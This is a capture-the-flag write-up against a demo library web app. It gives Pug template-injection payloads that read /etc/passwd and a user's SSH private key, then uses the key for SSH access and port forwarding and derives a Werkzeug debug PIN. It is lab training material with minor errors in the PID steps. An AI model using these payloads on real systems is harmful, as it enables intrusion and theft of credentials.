


# Demo Library
There is a web app were we were able to discover that web pages were served by the pug runtime library `https://www.npmjs.com/package/pug-runtime?activeTab=code` from a node server and that `/admin/requests/<uuid>` could be used to ask for some info.





Requesting a non existent page we get the pug library error:

> https://ctfdemo.interlogica.ninja/library/document/<doc_id>




```
TypeError: document.pug:13
    11|         else
    12|             div.centered - ENTRY NOT FOUND -
  > 13|     button.button.more-info(disabled=!document.moreInfoAvailable, onclick='requestMoreInfo("'+document.id+'")') Request more info
    14|     button.button.back(onclick='location="/library/"') Back
    15| 

Cannot read properties of undefined (reading 'moreInfoAvailable')
    at eval (eval at wrap (/app/node_modules/pug-runtime/wrap.js:6:10), <anonymous>:62:102)
    at template (eval at wrap (/app/node_modules/pug-runtime/wrap.js:6:10), <anonymous>:117:7)
    at /app/app.js:36:14
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at next (/app/node_modules/express/lib/router/route.js:149:13)
    at Route.dispatch (/app/node_modules/express/lib/router/route.js:119:3)
    at Layer.handle [as handle_request] (/app/node_modules/express/lib/router/layer.js:95:5)
    at /app/node_modules/express/lib/router/index.js:284:15
    at param (/app/node_modules/express/lib/router/index.js:365:14)
    at param (/app/node_modules/express/lib/router/index.js:376:14)
```

## Prologue: The Library

First of all a light nmap scan for open ports:

```shell
nmap -sV ctfdemo.interlogica.ninja
```
We can see two open ports: 443 for https and 2222 for ssh.

Let's visit the website.
By fuzzing the filter we find out that we get an error if we input something like `#{` or `#[`, which reveals to us that
the Pug templating engine is in use and that it's vulnerable to SSTI. We can then leverage the vulnerability to perform
RCE.
Let's first read some local files:

    #{process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}

We see that the user `dave` exists. Let's see if he has a private ssh key that we can snatch:

    #{process.mainModule.require('child_process').spawnSync('cat', ['/home/dave/.ssh/id_rsa']).stdout}

Alright. Now we can connect via ssh using dave's private key:

```shell
chmod 600 <dave_id_rsa>
ssh dave@ctfdemo.interlogica.ninja -i <dave_id_rsa> -p 2222
```

While pillaging, we find out that a python application is running locally on port 5000 with the following command:

```shell
netstat -tulpn
```

Since the application only accepts connections from localhost, from our attack machine we can use ssh to do a local port
forward:

```shell
ssh -L 5001:127.0.0.1:5000 dave@ctfdemo.interlogica.ninja -i <dave_id_rsa> -p <ssh_port>
```

Now we can access the remote python service on local port 5001.
By dirbusting with the provided wordlist, we find out that the `/console` page is available, which means that the
application is running with the debug mode activated.
We can retrieve the pin using the following guide:

https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug

We have to fill the following stuff:

```python
probably_public_bits = [
    '<username>',
    'flask.app',
    'Flask',
    '<app.py_location>'
]

private_bits = [
    '<private_bit_1>',
    '<private_bit_2>'
]
```

Let's find the location of the flask `app.py`:

```shell
find / -type f  -name app.py 2>/dev/null
/usr/local/lib/python3.10/site-packages/flask/sansio/app.py
/usr/local/lib/python3.10/site-packages/flask/app.py
```
So `/usr/local/lib/python3.10/site-packages/flask/app.py` it is.

Then:

```shell
python -c "import uuid;print(str(uuid.getnode()))"
2485378023426
```

gives us the value of `private_bit_1`. NOTE: this value and/or the value of `private_bit_2` will change at every reboot.
Let's calculate the value of `private_bit_2`:

```shell
cat /proc/sys/kernel/random/boot_id
1d0ab7ff-1550-45ca-a92d-3b4ed58eaa74
ps aux | grep python
8 admin     0:00 python3 /home/admin/app.py
21 admin     0:01 /usr/local/bin/python3 /home/admin/app.py
79 dave      0:00 grep python
```

so the username is `admin`. The pid is `21`.

```shell
head -n 1 /proc/22/cgroup | awk -F/ '{print $NF}'
9c342664c0f8ca623ec1cd7dbf93f57c395ae71b0b8299db11ef6b751346db10
```

The value of `private_bit_2` then is the concatenation of `1d0ab7ff-1550-45ca-a92d-3b4ed58eaa74`
and `9c342664c0f8ca623ec1cd7dbf93f57c395ae71b0b8299db11ef6b751346db10`.

Let's put the values we found in the python script and let's run it.

```python
probably_public_bits = [
    'admin',
    'flask.app',
    'Flask',
    '/usr/local/lib/python3.10/site-packages/flask/app.py'
]

private_bits = [
    '2485378023426',
    '1d0ab7ff-1550-45ca-a92d-3b4ed58eaa749c342664c0f8ca623ec1cd7dbf93f57c395ae71b0b8299db11ef6b751346db10'
]
```

We got the PID! Now we can open the file we want to read:

```python
with open('/admin/requests/<uuid>', 'r') as file:
    print(file.read())
```
Let's visit the url in the file now!

Ouch.